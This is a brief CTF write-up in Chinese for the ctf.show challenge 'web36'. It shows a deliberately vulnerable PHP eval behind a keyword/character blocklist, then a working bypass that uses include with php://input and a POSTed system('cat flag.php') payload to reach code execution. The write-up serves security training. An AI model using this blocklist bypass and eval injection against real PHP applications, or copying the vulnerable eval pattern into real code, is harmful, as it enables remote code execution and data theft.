

# web36

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这一次，除了增加斜杠以外，还拦截了0-9的数字

那么可以使用字母来进行传参

```plaintext
https://9c2e6982-15a1-4368-983b-0151becdd0b2.challenge.ctf.show/?c=include$_GET[a]?>&a=php://input

POST: <?php system("cat flag.php"); ?>
```


